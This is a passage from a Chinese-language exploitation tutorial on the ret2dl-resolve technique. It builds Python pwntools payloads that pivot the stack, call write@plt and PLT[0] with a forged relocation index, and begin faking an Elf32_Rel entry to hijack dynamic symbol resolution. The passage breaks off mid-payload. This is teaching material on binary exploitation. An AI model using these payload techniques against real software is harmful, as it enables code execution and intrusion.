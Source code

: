 从这里开始，后面的 paylaod 都是通过 read 函数读入的，所以必须为 100 字节长。首先，调用 write@plt 函数打印出与 base_addr 偏移 80 字节处的字符串 "/bin/sh"，以验证栈转移成功。注意由于 `.dynstr` 中的字符串都是以 "\x00" 结尾的，所以伪造字符串为 "bin/sh\x00"。
```python
payload_2  = "AAAA"     # new ebp
payload_2 += p32(write_plt)
payload_2 += "AAAA"
payload_2 += p32(1)
payload_2 += p32(base_addr + 80)
payload_2 += p32(len("/bin/sh"))
payload_2 += "A" * (80 - len(payload_2))
payload_2 += "/bin/sh\x00"
payload_2 += "A" * (100 - len(payload_2))

io.sendline(payload_2)
print io.recv()
```

我们知道第一次调用 write@plt 时其实是先将 reloc_index 压入栈，然后跳转到 PLT[0]：
```
gdb-peda$ disassemble write
Dump of assembler code for function write@plt:
   0x08048430 <+0>:     jmp    DWORD PTR ds:0x804a01c
   0x08048436 <+6>:     push   0x20
   0x0804843b <+11>:    jmp    0x80483e0
End of assembler dump.
```
这次我们跳过这个过程，直接控制 `eip` 跳转到 PLT[0]，并在栈上布置上 reloc_index，即 `0x20`，就像是调用了 write@plt 一样。
```python
reloc_index = 0x20

payload_3  = "AAAA"
payload_3 += p32(plt_0)
payload_3 += p32(reloc_index)
payload_3 += "AAAA"
payload_3 += p32(1)
payload_3 += p32(base_addr + 80)
payload_3 += p32(len("/bin/sh"))
payload_3 += "A" * (80 - len(payload_3))
payload_3 += "/bin/sh\x00"
payload_3 += "A" * (100 - len(payload_3))

io.sendline(payload_3)
print io.recv()
```

接下来，我们更进一步，伪造一个 write 函数的 Elf32_Rel 结构体，原结构体在 `.rel.plt` 中，如下所示：
```C
typedef struct
{
  Elf32_Addr    r_offset;       /* Address */
  Elf32_Word    r_info;         /* Relocation type and symbol index */
} Elf32_Rel;
```
```
$ readelf -r a.out | grep write
0804a01c  00000707 R_386_JUMP_SLOT   00000000   write@GLIBC_2.0
```
该结构体的 `r_offset` 是 write@got 地址，即 `0x0804a01c`，`r_info` 是 `0x707`。动态装载器通过 reloc_index 找到它，而 reloc\_index 是相对于 `.rel.plt` 的偏移，所以我们如果控制了这个偏移，就可以跳转到伪造的 write 上。payload 如下：
```python
reloc_index = base_addr + 28 - rel_plt  # fake_reloc = base_addr + 28

r_info = 0x707
fake_reloc = p32(write_got) + p32(r_info)

payload_4  = "AAAA"
payload_4 += p32(plt_0)
```